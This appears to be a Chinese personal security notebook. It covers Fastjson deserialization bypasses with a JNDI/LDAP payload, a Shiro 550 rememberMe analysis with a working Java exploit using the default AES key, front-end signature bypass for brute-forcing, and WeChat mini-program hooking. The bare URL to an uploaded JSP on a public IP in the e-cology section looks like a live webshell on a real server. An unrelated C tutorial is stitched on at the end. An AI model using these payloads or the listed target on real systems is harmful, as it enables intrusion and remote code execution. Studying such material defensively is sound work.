Fastjson 的 json.parse()会调用类的getter和setter方法，而TemplatesImpl的getOutputProperties()会调用newTransformer()然后getTransletInstance()然后加载_bytecodes数组，并且newInstane。

JdbcRowSetImpl 

JdbcRowSetImpl反序列化时，调用setter方法，触发setAutoCommit()，在this.conn为空时，调用this.connect()，这里面调用了javax.naming.InitialContext#lookup()，参数从dataSourceName成员变量获取


1.2.25 增加了checkAutoType，如果开了就 判断白名单，再判断黑名单，通过了就加载。但是可以通过描述符[ L ;来绕过

1.2.42 把明文黑名单转为了hash黑名单防止黑客进行分析，并且checkAutoType判断，如果L开头 ; 结尾就substring截断去除。但是由于是递归处理描述符的，双写LL;; 就绕过了

1.2.43 ban掉了L，用[ 绕

1.2.44 ban掉了 [

1.2.45 JndiDataSourceFactory的 由于payload中设置了properties属性值，JndiDataSourceFactory.setProperties()
InitCtx.lookup(properties.getProperty("data_source")); 从properties中获取了data_source

1.2.47 通过 java.lang.Class，将JdbcRowSetImpl类加载到Map中缓存，从而绕过AutoType的检测。因此将payload分两次发送，第一次加载，第二次执行。与1.2.24的区别就是将JdbcRowSetImpl加载到了Map中缓存


 String payload  = "{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},"
                + "\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\","
                + "\"dataSourceName\":\"ldap://localhost:1389/Exploit\",\"autoCommit\":true}}";
        JSON.parse(payload);

1.2.68 safeMode loadClass 重载方法默认的调用改为不缓存 通过AutoCloseable 任意文件写入 AutoCloseable是白名单

不出网利用
Commons-io 写文件/webshell
但写webshell需要知道网站路径，不然就无法利用
如果为高权限，可尝试写定时任务，免密钥，等等（这些只是在理论情况下的猜想）
低版本限制< fastjson 1.2.68

C3P0二次序列化 之 hex序列化字节加载器

BECL攻击，命令执行/内存马
becl攻击则是利用tomcat的BasicDataSource链
编译poc，将poc的class字节码转化为bcel然后发送payload


## Tomcat


## Log4j


## Shiro

### shiro550

#### 原理

Shiro 550 反序列化漏洞存在版本：shiro <1.2.4，产生原因是因为shiro接受了Cookie里面`rememberMe`的值，然后去进行Base64解密后，再使用aes密钥解密后的数据，进行反序列化。

反过来思考一下，如果我们构造该值为一个cc链序列化后的值进行该密钥aes加密后进行base64加密，那么这时候就会去进行反序列化我们的payload内容，这时候就可以达到一个命令执行的效果。

```
登录成功并且点了rememberMe选项：
writeObject序列化 -> AES加密 -> Base64编码 -> 返回到Cookie内

Cookie带着这段base64编码，代表ji'zhu
获取rememberMe值 -> Base64解密 -> AES解密 -> 调用readobject反序列化操作
```

#### 分析

**漏洞环境**：这里我是直接用的vulhub的shiro550demo

##### 普通登录

我们直接下断点在登陆判定


然后回到web正常登录试试


可以看到在这里获取了三个登陆参数的值，然后带入`UsernamePasswordToken`类进行处理，跟进看一下这个类做了什么


从文档了解到这个类是封装了提交的用户名密码以及`rememberMe`是否勾选，继续跟进


这里设置好了四个字段，回到`UserController`类


可以看到把`UsernamePasswordToken`对象传入了`subject`的`login`方法，这里的`subject`对象实际上获取到的是`WebDelegatingSubject`对象


而`WebDelegatingSubject`对象是`DelegatingSubject`的子类，跟进到`DelegatingSubject`的`login`方法


这里又调用了`securityManager`的`login`方法来对token进行校验，即`DefaultSecurityManager`的login方法，判断是否有这个用户


login方法通过抽象类`AuthenticatingSecurityManager`的`authenticate`方法进行验证


这里包装的`authenticator`是`ModularRealmAuthenticator`，跟进


继承自`AbstractAuthenticator`，跟进到`authenticate`方法，中间又调用了`doAuthenticate`方法


跟进到`doAuthenticate`方法，这个方法是通过迭代Realm的内部集合来验证token，如果realm有多个，会多个迭代验证，如果realm只有一个，则直接调用`doSingleRealmAuthentication`


可以看到我们只有一个`MainRealm`，那么直接跟进到`MainRealm`的`Authenticator`


验证账号密码，通过则返回一个`SimpleAuthenticationInfo`，失败则抛出报错，最后将登录验证后的信息全部return，回到`UserController`


至此整个普通登录流程分析完毕

##### 勾选rememberMe登录，产生rememberMe

shiro550的主要漏洞点是rememberMe参数，我们来看看勾选了rememberMe后的登录流程


其他步骤和普通登录一样，我们直接跟到`UsernamePasswordToken`


回到`UserController`，跟进`DelegatingSubject`的login方法


跟进到`DefaultSecurityManager`的login方法，完成了验证之后会调用`onSuccessfulLogin`方法


跟进到`onSuccessfulLogin`方法


调用了`rememberMeSuccessfulLogin`方法，继续跟进


此时rmm通过`getRememberMeManager`方法获取到了一个`RememberMeManager`对象


我们来看看`RememberMeManager`对象是怎么来的


跟进`RememberMeManager`，一共有两处实现了这个接口


回到`ShiroConfig`类，我们可以看到这里是通过`cookieRememberMeManager`作为RememberMeManager


直接跟进到`cookieRememberMeManager`类


跟进到父类`AbstractRememberMeManager`


这里是base64编码后的硬编码key


实例化时设置了默认的序列化器、设置加密服务为AES以及密钥，参数如下


此时我们获取到了一个完整的`cookieRememberMeManager`



回到`rememberMeSuccessfulLogin`方法


调用了rmm的`onSuccessfulLogin`方法


删除身份数据后，通过`isRememberMe`来判断是否启用了rememberMe


如果为true则进入`rememberIdentity`流程，先从authcInfo获取了账号主体，这一步是通过LinkedHashMap来追踪账号主体


接着带着subject和主体进入下一个重载方法


将帐户主体converting成字节数组的这一步就是我们的重点，直接跟进


通过文档了解到这一步是为了把主体集合转换成“记住登录”的数组，首先通过serialize将主体序列化为字节数组


接着调用`getCipherService`获取加密服务对字节数组进行加密，也就是之前提到的AES加密流程


接着返回加密后的字节数组，回到`rememberIdentity`方法，进入最后一步`rememberSerializedIdentity`


在此处实现


后面的步骤就很好理解了，先对传入的加密后的字节数组进行一次Base64编码，然后获取cookie模板创建一个SimpleCookie对象，接着通过操作SimpleCookie对象，把最终的rememberMe放进HTTP请求中的cookie


至此，整个产生rememberMe的流程分析完毕

##### rememberMe自动登录

上面分析了rememberMe产生的过程，接下来我们带着rememberMe直接访问，还是在登录判断处下断点

一路跟进到`DefaultSecurityManager`的login方法，在验证完token之后会通过`createSubject`创建登录后的Subject对象


我们直接跟进到`createSubject`方法


带着注释简单分析一下过程，首先通过`ensureSecurityManager`补充上SecurityManager实例，然后通过`resolveSession`解析Session，接着通过`resolvePrincipals`方法解析用户主体，最后再用context创建Subject实例

触发点就在解析用户主体的过程中，我们直接跟进


在这个过程中，先解析了主体，如果主体为空再通过调用`getRememberedIdentity`检查rememberMe身份，跟进


这里首先获取`RememberMeManager`，如果不为空则调用rmm的`getRememberedPrincipals`方法，跟进到`CookieRememberMeManager`的`getRememberedPrincipals`方法


这其中一共有两个重要方法`getRememberedSerializedIdentity`和`convertBytesToPrincipals`，我们首先看第一个


通过`getCookie().readValue()`获取cookie中rememberMe的值


把value返回后在`getRememberedSerializedIdentity`中进行base64解码，然后转为字节数组并return

回到`getRememberedPrincipals`，如果返回的字节数组不为空则继续下一步`convertBytesToPrincipals`


这里是获取解密服务，步骤和前面一样，通过AES解密字节数组，最后交给`deserialize`进行反序列化


这就是最终触发反序列化的地方，返回一个账号主体


至此，整个rememberMe自动登录的过程分析完毕

#### 利用

经过所有的分析，我们知道了如何通过rememberMe进行反序列化，接下来构造exp利用

首先用ysoserial生成CC1的payload


接下来我们来构造EXP

```java
package com.y5neko.sec.shiro;

import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.crypto.CipherService;
import org.apache.shiro.util.ByteSource;

import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;

public class Shiro550_Exp {
    public static void main(String[] args) throws Exception{
        //我们直接调用shiro的AES服务来进行加密
        byte[] DEFAULT_CIPHER_KEY_BYTES = org.apache.shiro.codec.Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
        CipherService cipherService = new AesCipherService();

        //读取payload为字节数组
        byte[] bytes = Files.readAllBytes(Paths.get("H:\\Java_Project\\Java_Security\\src\\com\\y5neko\\sec\\shiro\\shiro550"));
        //AES加密
        ByteSource byteSource = cipherService.encrypt(bytes, DEFAULT_CIPHER_KEY_BYTES);
        byte[] value = byteSource.getBytes();
        //Base64编码
        String base64 = Base64.getEncoder().encodeToString(value);
        System.out.println(base64);
    }
}
```





## JBoss


## Struts


## Spring


## Redis


## ThinkPHP


## Vcenter


## CommonCollections

### CC1


## e-cology

http://182.150.63.102:7180/formmode/apps/upload/ktree/images/17018768907903b4b9ae1-0e54-48c9-9462-9298a2139706.jsp


# 前端加密

## 验证签名防篡改

> 签名验证（又叫验签或签名）是验证请求参数是否被篡改的一种常见安全手段，验证签名方法主流的有两种，一种是 KEY+哈希算法，例如 HMAC-MD5 / HMAC-SHA256 等，另外生成签名的规则可能为：username=*&password=*。在提交和验证的时候需要分别对提交数据进行处理，签名才可以使用和验证


如果我们抓包修改密码再发包，就会导致签名验证失败


尝试爆破


发现仅有当密码和原来一致时才通过，我们只要尝试在发包爆破的同时改变签名的值就行了

**签名产生流程**

大部分签名的逻辑都藏在前端 JavaScript 中，签名中字段的顺序一般来说是有意义的，JavaScript 中的 Object Properties 是有顺序的，因此我们只需要找到产生签名需要的算法即可

直接在浏览器定位到表单处


可以看到这里的表格没有method和action，说明表单的提交行为可能是由js来操作，或者action给当前页面

如果是通过js操作，那么应该是需要操作 DOM 元素来取值计算，我们直接在浏览器中查看表单绑定的事件



可以看到事件的源地址，直接跟进去


我们在源码中发现了加密的js算法实现，分析一下


可以看到这里是定义了生成key和加解密的函数，然后通过常量key接受了密钥


接下来，getData函数通过DOM获取到了username和password的值，返回了一串json

outputObj函数首先通过一个常量word将账号密码转变成了username=admin&password=password的形式

接着通过Encrypt产生了签名，然后将结果转变成新的json格式

最后submitJSON函数首先禁用了浏览器默认的表单提交方法，然后构造了新的提交方式

我们在浏览器里面跟一下整个流程，首先看一下key的值


十六进制


接着来看一下签名生成的算法，根据我们输入的账号密码的word值为username=admin&password=password

然后通过CryptoJS的HmacSHA256函数，使用key：1234123412341234作为密钥，生成：


现在我们知道了生成签名的过程，现在我们就可以尝试编写插件来实现算法，这里用yaklang为例

先在WebFuzzer模块中把要发包的password设置为变量


```javascript
//模板
//{{yak(signRequest|admin|password)}}

//定义签名的生成函数，通过codec的sha256函数
func sign(user, pass) {
    return codec.EncodeToHex(codec.HmacSha256("1234123412341234", f`username=${user}&password=${pass}`))
}

signRequest = result => {
    pairs := result.SplitN("|", 2)		//通过|分割signRequest后面的参数
    return sign(pairs[0], pairs[1])		//传入参数返回给signRequest
}
```



在热加载中可以通过 `{{yak(signRequest|...)}}`来调用，直接在签名处插入我们的模板


成功绕过

## 前端JS加密表单


# 微信小程序hook

## 基地址查找

打开微信，先不登录，用x64dbg附加


找到参数带`--log-level`的进程，这个是主进程，其余的都是子进程，选择附加


程序自动暂停时，可以删除所有断点再继续运行，如果线程有挂起可以恢复所有线程


在符号视图里找到`wechatappex.exe`，记录下此时`wechatappex.exe`的基址：`0x00007FF7F53E0000`

双击跟进汇编窗口，找到push的位置搜索字符串引用


查找字符串`LaunchApplet init_config.productId`，这是小程序加载初始化配置项的方法


双击跟进到汇编窗口，往上找到函数的起始处，也就是return的后面一步


我们下一个断点，然后随便开一个小程序


在断点处暂停，我们在栈中跟随此时rax的地址，往下翻可以看到一些小程序的信息


到这一步说明我们位置找对了，记录下我们刚刚下的断点的地址：`0x00007FF7F7E2C20A`

接下来回到引用窗口，查找`wechat_web.html`


双击跟进汇编窗口


我们可以看到wechat_web和wechat_app相关的几步

记录下存放wechat_web的ds中的段基址：`0x00007FF7FCE03D33`

为了防止检测，wechat_app的地址就记录下面一行的：`0x00007FF7F7CC1D66`


## 偏移量计算

我们刚刚一共拿到四个数据：

`wechatappex.exe`的基地址：`0x00007FF7F53E0000`

`LaunchApplet init_config.productId`函数的起始地址：`0x00007FF7F7E2C20A`

`wechat_web`有关ds中的段基址：`0x00007FF7FCE03D33`

`webchat_app`的地址：`0x00007FF7F7CC1D66`

接下来可以计算偏移量：

`LaunchAppletBegin`可以通过productId的地址减去`wechatappex.exe`的基地址得到


`WechatWebHtml`可以通过`wechat_web`有关ds中的段基址减去`wechatappex.exe`的基地址得到


`WechatAppHtml`可以通过`webchat_app`的地址减去`wechatappex.exe`的基地址得到


## 验证

接下来用我们得到的偏移量文件通过`WeChatOpenDevTools`验证一下


注入完整开发者工具成功。


# C语言

## 自动类型转换


```C
#include<stdio.h>
int main(){
    float PI = 3.14159;
    int s1, r = 5;
    double s2;
    s1 = r * r * PI;
    s2 = r * r * PI;
    printf("s1=%d, s2=%f\n", s1, s2);
    return 0;
}
```


## 输出

- puts()：只能输出字符串，并且输出结束后会自动换行。
- putchar()：只能输出单个字符。
- printf()：可以输出各种类型的数据。


### 对齐输出

`%-9d`中，`d`表示以十进制输出，`9`表示最少占9个字符的宽度，宽度不足以空格补齐，`-`表示左对齐。综合起来，`%-9d`表示以十进制输出，左对齐，宽度最小为9个字符。大家可以亲自试试`%9d`的输出效果。

printf() 格式控制符的完整形式如下：

```c
%[flag][width][.precision]type
```

**例子**

```c
#include <stdio.h>
int main()
{
    int a1=20, a2=345, a3=700, a4=22;
    int b1=56720, b2=9999, b3=20098, b4=2;
    int c1=233, c2=205, c3=1, c4=6666;
    int d1=34, d2=0, d3=23, d4=23006783;

    printf("%-9d %-9d %-9d %-9d\n", a1, a2, a3, a4);
    printf("%-9d %-9d %-9d %-9d\n", b1, b2, b3, b4);
    printf("%-9d %-9d %-9d %-9d\n", c1, c2, c3, c4);
    printf("%-9d %-9d %-9d %-9d\n", d1, d2, d3, d4);

    return 0;
}
```



### Windows和Linux的输出缓存机制

#### Windows



windows在输出第一行后，延时3秒输出了第二行，sleep成功生效无异常。

#### Linux


linux在延时了3秒后再将第一行和第二行一起输出出来。

**原因**

从本质上讲，printf() 执行结束以后数据并没有直接输出到显示器上，而是放入了缓冲区，直到遇见换行符`\n`才将缓冲区中的数据输出到显示器上。

## 输入

- scanf()：和 printf() 类似，scanf() 可以输入多种类型的数据。
- getchar()、getche()、getch()：这三个函数都用于输入单个字符。
- gets()：获取一行数据，并作为字符串处理。

scanf() 是最灵活、最复杂、最常用的输入函数，但它不能完全取代其他函数。

#### 内存中存放的格式

数据是以二进制的形式保存在内存中的，字节（Byte）是最小的可操作单位。为了便于管理，我们给每个字节分配了一个编号，使用该字节时，只要知道编号就可以，就像每个学生都有学号，老师会随机抽取学号来让学生回答问题。字节的编号是有顺序的，从 0 开始，接下来是 1、2、3……




`%p`是一个新的格式控制符，它表示以十六进制的形式（带小写的前缀）输出数据的地址。如果写作`%P`，那么十六进制的前缀也将变成大写形式。


#### 输入与缓冲区的关系

```c
#include <stdio.h>
int main()
{
    int a, b, c;
    scanf_s("%d %d", &a, &b);
    printf("a+b=%d\n", a + b);
    scanf_s("%d   %d", &a, &b);
    printf("a+b=%d\n", a + b);
    scanf_s("%d, %d, %d", &a, &b, &c);
    printf("a+b+c=%d\n", a + b + c);

    scanf_s("%d is bigger than %d", &a, &b);
    printf("a-b=%d\n", a - b);
    return 0;
}
```

我们一个一个地输入变量 a、b、c、d 的值，每输入一个值就按一次回车键。现在我们改变输入方式，将四个变量的值一次性输入，如下所示：

```
12 60 10 23↙
a+b=72
c*d=230
```

可以发现，两个 scanf() 都能正确读取。合情合理的猜测是，第一个 scanf() 读取完毕后没有抛弃多余的值，而是将它们保存在了某个地方，下次接着使用。

> **从本质上讲，我们从键盘输入的数据并没有直接交给 scanf()，而是放入了缓冲区中，直到我们按下回车键，scanf() 才到缓冲区中读取数据。如果缓冲区中的数据符合 scanf() 的要求，那么就读取结束；如果不符合要求，那么就继续等待用户输入，或者干脆读取失败。**

#### 输入字符和字符串所有函数汇总

#### **输入单个字符**

##### getchar()

最容易理解的字符输入函数是 getchar()，它就是`scanf("%c", c)`的替代品，除了更加简洁，没有其它优势了；或者说，getchar() 就是 scanf() 的一个简化版本。

##### getche()：windows特有函数

getche() 就比较有意思了，它没有缓冲区，输入一个字符后会立即读取，不用等待用户按下回车键，这是它和 scanf()、getchar() 的最大区别。请看下面的代码：

```
#include <stdio.h>
#include <conio.h>
int main()
{
    char c = getche();
    printf("c: %c\n", c);
    return 0;
}
```

##### getche()：Windows特有函数

getch() 也没有缓冲区，输入一个字符后会立即读取，不用按下回车键，这一点和 getche() 相同。getch() 的特别之处是它没有回显，看不到输入的字符。所谓回显，就是在控制台上显示出用户输入的字符；没有回显，就不会显示用户输入的字符，就好像根本没有输入一样。回显在大部分情况下是有必要的，它能够与用户及时交互，让用户清楚地看到自己输入的内容。但在某些特殊情况下，我们却不希望有回显，例如输入密码，有回显是非常危险的，容易被偷窥。

##### 总结


#### 输入字符串

##### gets()

输入字符串当然可以使用 scanf() 这个通用的输入函数，对应的格式控制符为`%s`，上节已经讲到了；本节我们重点讲解的是 gets() 这个专用的字符串输入函数，它拥有一个 scanf() 不具备的特性。

```c
#include <stdio.h>
int main()
{
    char author[30], lang[30], url[30];
    gets(author);
    printf("author: %s\n", author);
    gets(lang);
    printf("lang: %s\n", lang);
    gets(url);
    printf("url: %s\n", url);
   
    return 0;
}
```

gets() 是有缓冲区的，每次按下回车键，就代表当前输入结束了，gets() 开始从缓冲区中读取内容，这一点和 scanf() 是一样的。gets() 和 scanf() 的主要区别是：

- scanf() 读取字符串时以**空格为分隔**，遇到空格就认为当前字符串结束了，所以无法读取含有空格的字符串。
- gets() 认为**空格也是字符串的一部分**，只有遇到回车键时才认为字符串输入结束，所以，不管输入了多少个空格，只要不按下回车键，对 gets() 来说就是一个完整的字符串。

也就是说，gets() 能读取含有空格的字符串，而 scanf() 不能。

## 数组

### 数组的内存结构

数组是一个整体，它的内存是连续的；也就是说，数组元素之间是相互挨着的，彼此之间没有一点点缝隙。下图演示了`int a[4];`在内存中的存储情形：


「数组内存是连续的」这一点很重要，所以我使用了一个大标题来强调。连续的内存为[指针](https://c.biancheng.net/c/80/)操作（通过指针来访问数组元素）和内存处理（整块内存的复制、写入等）提供了便利，这使得数组可以作为缓存（临时存储数据的一块内存）使用。

### 初始化

1) 可以只给部分元素赋值。当`{ }`中值的个数少于元素个数时，只给前面部分元素赋值。例如：

```c
int a[10]={12, 19, 22 , 993, 344};
```

2) 只能给元素逐个赋值，不能给数组整体赋值。例如给 10 个元素全部赋值为 1，只能写作：

```c
int a[10] = {1, 1, 1, 1, 1, 1, 1, 1, 1, 1};
```

3) 如给全部元素赋值，那么在定义数组时可以不给出数组长度。例如：

```c
int a[] = {1, 2, 3, 4, 5};
```

等价于

```c
int a[5] = {1, 2, 3, 4, 5};
```

如果只初始化部分数组元素，那么剩余的数组元素也会自动初始化为“零”值，所以我们只需要将 str 的第 0 个元素赋值为 0，剩下的元素就都是 0 了。

```c
int a[5] = {0};
```


### 判断数组中是否包含某个元素

在实际开发中，经常需要查询数组中的元素。例如，学校为每位同学分配了一个唯一的编号，现在有一个数组，保存了实验班所有同学的编号信息，如果有家长想知道他的孩子是否进入了实验班，只要提供孩子的编号就可以，如果编号和数组中的某个元素相等，就进入了实验班，否则就没进入。

不幸的是，C语言标准库没有提供与数组查询相关的函数，所以我们只能自己编写代码。

#### 无序数组查询

所谓无序数组，就是数组元素的排列没有规律。无序数组元素查询的思路也很简单，就是用循环遍历数组中的每个元素，把要查询的值挨个比较一遍。请看下面的代码：

```c
#include <stdio.h>
int main(){
    int nums[10] = {1, 10, 6, 296, 177, 23, 0, 100, 34, 999};
    int i, num, thisindex = -1;
   
    printf("Input an integer: ");
    scanf("%d", &num);
    for(i=0; i<10; i++){
        if(nums[i] == num){
            thisindex = i;
            break;
        }
    }
    if(thisindex < 0){
        printf("%d isn't  in the array.\n", num);
    }else{
        printf("%d is  in the array, it's index is %d.\n", num, thisindex);
    }
    return 0;
}
```


#### 有序数组查询

查询无序数组需要遍历数组中的所有元素，而查询有序数组只需要遍历其中一部分元素。例如有一个长度为 10 的整型数组，它所包含的元素按照从小到大的顺序（升序）排列，假设比较到第 4 个元素时发现它的值大于输入的数字，那么剩下的 5 个元素就没必要再比较了，肯定也大于输入的数字，这样就减少了循环的次数，提高了执行效率。

请看下面的代码：

```c
#include <stdio.h>
int main(){
    int nums[10] = {0, 1, 6, 10, 23, 34, 100, 177, 296, 999};
    int i, num, thisindex = -1;
   
    printf("Input an integer: ");
    scanf("%d", &num);
    for(i=0; i<10; i++){
        if(nums[i] == num){
            thisindex = i;
            break;
        }else if(nums[i] > num){
            break;
        }
    }
    if(thisindex < 0){
        printf("%d isn't  in the array.\n", num);
    }else{
        printf("%d is  in the array, it's index is %d.\n", num, thisindex);
    }
   
    return 0;
}
```

### 字符数组和字符串详解

用来存放字符的数组称为**字符数组**，例如：

```c
char a[10];  //一维字符数组
char b[5][10];  //二维字符数组
char c[20]={'c', '  ', 'p', 'r', 'o', 'g', 'r', 'a','m'};  // 给部分数组元素赋值
char d[]={'c', ' ', 'p', 'r', 'o', 'g', 'r', 'a', 'm' };  //对全体元素赋值时可以省去长度
```

字符数组实际上是一系列字符的集合，也就是**字符串（String）**。在C语言中，没有专门的字符串变量，没有string类型，通常就用一个字符数组来存放一个字符串。

C语言规定，可以将字符串直接赋值给字符数组，例如：

```c
char str[30] = {"c.biancheng.net"};
char str[30] = "c.biancheng.net";  //这种形式更加简洁，实际开发中常用
```

### 字符串结束标志

在C语言中，字符串总是以`'\0'`作为结尾，所以`'\0'`也被称为字符串结束标志，或者字符串结束符。

> `'\0'`是 ASCII 码表中的第 0 个字符，英文称为 NUL，中文称为“空字符”。该字符既不能显示，也没有控制功能，输出该字符不会有任何效果，它在C语言中唯一的作用就是作为字符串结束标志。

由`" "`包围的字符串会自动在末尾添加`'\0'`。例如，`"abc123"`从表面看起来只包含了 6 个字符，其实不然，C语言会在最后隐式地添加一个`'\0'`，这个过程是在后台默默地进行的，所以我们感受不到。

下图演示了`"C program"`在内存中的存储情形：


需要注意的是，逐个字符地给数组赋值并不会自动添加`'\0'`，例如：

```
char str[] = {'a', 'b', 'c'};
```

数组 str 的长度为 3，而不是 4，因为最后没有`'\0'`。

